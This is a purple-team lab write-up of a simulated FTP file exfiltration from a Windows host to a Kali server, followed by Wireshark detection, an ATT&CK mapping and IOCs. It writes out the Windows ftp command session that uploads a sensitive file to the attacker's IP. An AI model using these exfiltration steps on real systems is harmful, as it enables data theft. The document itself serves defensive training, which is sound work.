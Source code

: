 # 🛡️ Scenario 5 – File Transfer via FTP

## 🎯 Objective
Simulate file exfiltration using the FTP protocol and validate the Blue Team’s ability to detect cleartext FTP traffic, credentials, and transferred files via network monitoring and forensic reconstruction.

---

## 🔴 Red Team Activity

### Steps
1. **Set up FTP server on Attacker Machine (Kali)**:
   - Used `vsftpd` configured with anonymous upload support:
     ```bash
     sudo systemctl start vsftpd
     sudo systemctl enable vsftpd
     ```
   - Uploads directed into `/srv/ftp/upload/`.

2. **Exfiltrate File from Victim (Windows)**:
   - Created sensitive file `Tolusecrets.txt` containing cleartext credentials and personal data.
   - Connected to attacker’s FTP server using the built-in Windows FTP client:
     ```cmd
     ftp 192.168.2.131
     user anonymous
     pass anonymous
     passive
     binary
     lcd C:\Users\MalwareLab
     cd /upload
     put Tolusecrets.txt
     bye
     ```

### Explanation
- The attacker leveraged **FTP**, a legacy cleartext protocol, to transfer sensitive data (`Tolusecrets.txt`).
- Since FTP transmits credentials, commands, and data without encryption, everything can be captured and reconstructed by defenders.

### Evidence
- **Victim CLI (Windows)**: Successful FTP session showing login with anonymous credentials and file upload.

  ![Victim FTP Session](Screenshot%202025-08-28%20213005.png)

- **Attacker File System (Kali)**: File landed in `/srv/ftp/upload` with sensitive contents.

  ![Attacker File System](Screenshot%202025-08-28%20211742.png)

  Example contents of `Tolusecrets.txt`:
  ```
  Tolu really loves his girlfriend Isabella
  Tolu's password: Isabella123456789$$$$
  ```

---

## 🔵 Blue Team Detection

### Network Traffic Analysis (Wireshark)
- **Filter Applied**:
  ```wireshark
  ftp or ftp-data
  ```

- **Observed Traffic**:
  - Cleartext login sequence (`USER anonymous`, `PASS anonymous`).
  - `CWD /upload` (change directory command).
  - `STOR Tolusecrets.txt` (file upload initiated).
  - `226 Transfer complete` (file successfully exfiltrated).

- **Captured Evidence**:
  ![Wireshark FTP Control](Screenshot%202025-08-28%20212216.png)

  ![Wireshark FTP Session](Screenshot%202025-08-28%20212254.png)

- **Analysis**:
  - FTP protocol reveals sensitive file transfers in plain text.
  - Wireshark allows defenders to follow the `ftp-data` stream to reconstruct `Tolusecrets.txt`.

---

## 🧩 MITRE ATT&CK Mapping
- **T1048** – Exfiltration Over Alternative Protocol  
  *Adversaries may use non-standard or less monitored protocols, like FTP, for exfiltration.*
- **T1020** – Automated Exfiltration  
  *Data is exfiltrated using automated mechanisms such as built-in transfer utilities.*

---

## 📌 Indicators of Compromise (IOCs)
| Type         | Value               | Notes                                         |
|--------------|---------------------|-----------------------------------------------|
| Attacker IP  | 192.168.2.131      | Kali machine running FTP server               |
| Victim IP    | 192.168.2.129      | Windows endpoint exfiltrating file            |
| Protocol     | FTP (tcp/21 + PASV)| Cleartext credentials + file transfer          |
| File Name    | Tolusecrets.txt    | Uploaded sensitive file                       |

---

## ✅ Summary
In this scenario, the attacker exfiltrated `Tolusecrets.txt` from a Windows machine to a Kali FTP server using cleartext FTP. The Blue Team observed:
- Anonymous credentials (`USER anonymous / PASS anonymous`).
- File transfer command `STOR Tolusecrets.txt`.
- Full transfer of sensitive data visible in Wireshark.

This exercise highlights the **risks of legacy, unencrypted protocols** like FTP, which allow adversaries to exfiltrate sensitive data in the clear. Defenders must monitor for FTP traffic in modern networks and block or restrict it whenever possible.
